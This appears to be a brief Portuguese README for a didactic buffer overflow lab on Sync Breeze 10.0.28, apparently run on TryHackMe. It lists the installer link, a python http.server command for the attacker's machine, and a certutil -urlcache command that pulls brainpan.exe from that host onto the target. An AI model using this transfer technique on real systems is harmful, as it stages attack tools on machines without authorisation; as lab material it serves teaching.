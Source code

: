 # Buffer Overflow Sync Breeze 10.0.28 - Didactic

**Sync Breeze 10.0.28**
- http://www.syncbreeze.com/setups/syncbreezeent_setup_v10.0.28.exe

**Subir servidor na máquina do atacante**
- ```python3 -m http.server (port)```

**Baixar o arquivo na máquina do THM**
- ```certutil -urlcache -split -f http://ipdavpn:porta/brainpan.exe```
